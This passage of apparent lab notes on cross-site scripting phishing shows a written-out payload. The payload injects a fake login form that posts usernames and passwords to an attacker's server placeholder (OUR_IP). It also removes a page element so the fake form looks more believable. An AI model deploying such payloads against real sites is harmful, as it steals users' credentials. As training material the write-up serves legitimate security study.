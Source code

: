 with this form we specify the form action to be our own server's IP so that we can listen for any given credentials

using `document.write()` we can write our minified HTML to the page using the XSS vulnerability we found

````javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
````

our payload becomes: 

```HTML 
'> <script>document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

![](Images/Pasted%20image%2020240124192630.png)
### Cleaning up 

we were successful in inserting our form but now we should modify the script to remove the image field to make it more believable 

we can add `document.getElementById('urlform').remove()` to our payload:

![](Images/Pasted%20image%2020240124192821.png)
